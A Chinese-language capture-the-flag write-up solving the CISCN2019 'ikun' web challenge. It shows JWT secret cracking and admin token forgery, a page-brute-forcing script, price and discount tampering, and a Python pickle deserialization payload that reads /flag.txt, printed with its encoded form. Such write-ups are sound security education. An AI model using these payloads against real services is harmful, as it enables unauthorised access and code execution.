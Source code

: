 # \[CISCN2019 华北赛区 Day1 Web2]ikun

## \[CISCN2019 华北赛区 Day1 Web2]ikun

## 考点

* JWT
* 逻辑漏洞
* tornado代码审计
* pickle反序列化

## wp

注册登录，提示剩余金额1000，并且在cookie中有JWT字段

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhYWEifQ.bJejEdbt0h9U-vvnfoUAF7JFOPy0o6LqHQnITMhYL2I
```

在[jwt.io](https://jwt.io)上看一下，提示需要密钥

![](<../../.gitbook/assets/image (13) (1) (1).png>)

可以使用[`jwtcrack`](https://github.com/brendan-rius/c-jwt-cracker)破解密钥，结果是1Kun，username改成admin，重新生成JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

回到个人中心，可以看到提示

![](<../../.gitbook/assets/image (12) (1) (1).png>)

```
>>> s='\\u8fd9\\u7f51\\u7ad9\\u4e0d\\u4ec5\\u53ef\\u4ee5\\u4ee5\\u8585\\u7f8a\\u6bdb\\uff0c\\u6211\\u8fd8\\u7559\\u4e86\\u4e2a\\u540e\\u95e8\\uff0c\\u5c31\\u85cf\\u5728\\u006c\\u0076\\u0036\\u91cc'
>>> s.encode('utf8').decode('unicode_escape')
'这网站不仅可以以薅羊毛，我还留了个后门，就藏在lv6里'
```

然后找lv6在哪儿，写爬虫爆破，在181页

```php
import requests

url = 'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page=2'

for i in range(1,999999):
    url = f'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page={str(i)}'
    r = requests.get(url)
    if '/static/img/lv/lv6' in r.text:
        print(url)
        break
```

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png>)

给的钱不够，应该是个逻辑漏洞，抓包看看，在结算的时候，有个折扣的参数，这里是打了8折

![](<../../.gitbook/assets/image (9) (1) (1).png>)

把price和discount都改成很低，看到返回了一个地址：`/b1g_m4mber`

![](<../../.gitbook/assets/image (7) (1) (1) (1).png>)

直接访问可以看到提示，给了源码

![](<../../.gitbook/assets/image (11) (1) (1).png>)

`static/asd1f654e683wq/www.zip`下载源码，直接找路由吧，在`sshop/views/__init__.py`文件下

```python
handlers = [
    (r'/', ShopIndexHandler),
    (r'/shop', ShopListHandler),
    (r'/info/(\d+)', ShopDetailHandler),
    (r'/shopcar', ShopCarHandler),
    (r'/shopcar/add', ShopCarAddHandler),
    (r'/pay', ShopPayHandler),
    (r'/user', UserInfoHandler),
    (r'/user/change', changePasswordHandler),
    (r'/pass/reset', ResetPasswordHanlder),
    (r'/login', UserLoginHanlder),
    (r'/logout', UserLogoutHandler),
    (r'/register', RegisterHandler),
    (r'/b1g_m4mber', AdminHandler)
]
```

发现在`AdminHandler`中调用了`pickle.loads`，由此切入

```php
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

`pickle.loads`把字符串转换成对象，`get_argument`用于获取GET或POST的参数，`urllib.unquote`是python2的用法，然后就可以构造pickle反序列化了

```python
# python2
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

得到结果

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

回到`/b1g_m4mber`，把输入框的`hidden`删掉

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1).png>)

提交payload

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

结果

![](<../../.gitbook/assets/image (12) (1).png>)

## 小结

1. 破解JWT的密钥可以使用[jwtcrack](https://github.com/brendan-rius/c-jwt-cracker)，在kali中使用

